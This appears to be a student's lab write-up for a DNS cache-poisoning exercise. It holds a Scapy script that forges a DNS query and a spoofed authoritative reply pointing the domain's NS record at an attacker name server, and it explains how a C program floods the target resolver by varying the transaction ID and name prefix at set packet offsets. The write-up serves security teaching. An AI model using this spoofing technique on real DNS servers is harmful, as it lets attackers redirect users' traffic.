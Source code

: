 ## Task 4

The last step is to put the attack into action: flood the target local DNS server with these spoofed replies. As stated in the Seed Labs guide, the python script might be too slow to carry on this attack. To fix this issue, we were given a code skeleton for the C code for us to fill, which is much faster. Using a hybrid approach, we first use Scapy to generate a DNS packet template, which is stored in a file. We then load this template into a C program, make small changes to some of the fields, and then send out the packet. 

In the python script, we didn't make many changes. The ones that are important to mention are the writing of the request to a file named `ip_req.bin` and the spoofed response packet to a file named `ip_resp.bin`:


```python
from scapy.all import * 

attackerIP = "10.9.0.1"
apoloIP = "10.9.0.53"
nsIPs = ["199.43.133.53", "199.43.135.53"]

domain = 'example.com'
name = 'aaaaa.example.com'
ns = 'ns.attacker32.com'
port = RandShort()

# DNS Query
Qdsec = DNSQR(qname=name)
dns = DNS(id=0xAAAA, qr=0, qdcount=1, ancount=0, nscount=0,arcount=0, qd=Qdsec)
ip = IP(dst=apoloIP, src=attackerIP)
udp = UDP(dport=53, sport=33333, chksum=0)
request = ip/udp/dns

# Save the packet to a file
with open('ip_req.bin', 'wb') as f:
    f.write(bytes(request))

# Spoofed DNS reply
Qdsec = DNSQR(qname=name)
Anssec = DNSRR(rrname=name, type='A', rdata="1.2.3.5", ttl=259200)
NSsec = DNSRR(rrname=domain, type='NS', rdata=ns, ttl=259200)
dns = DNS(id=0xAAAA, aa=1, rd=1, qr=1, qdcount=1, ancount=1, nscount=1, arcount=0,
    qd=Qdsec, an=Anssec, ns=NSsec)
ip = IP(dst=apoloIP, src=nsIPs[0])
udp = UDP(dport=33333, sport=53, chksum=0)
reply = ip/udp/dns
with open('ip_resp.bin', 'wb') as f:
    f.write(bytes(reply))
```

In the C program, we load the request packet from the `ip_req.bin` file and response packet from the `ip_resp.bin` file, and use it as our packet template, based on which we create many similar packets, and flood the target local DNS servers with these spoofed replies. For each reply, we change three places: the **transaction ID** and the **prefix name** (prefix.example.com) occurred in two places (the question section and the answer section). The transaction ID is at a fixed place (offset 28 from the beginning of our IP packet), but the offset for the prefix depends on the length of the domain name. We can use a binary editor program, such as bless, to view the binary file `ip.bin` and find the two offsets of the prefix. In our packet, they are at offsets 41 and 64, as mentioned in the lab guidelines. We also edited the authoritative name servers to be the same as the ones for the `example.com` domain. This offset was at 12 from the beginning of the packet, as it can be calculated using the `ipheader` struct provided in the C script. 

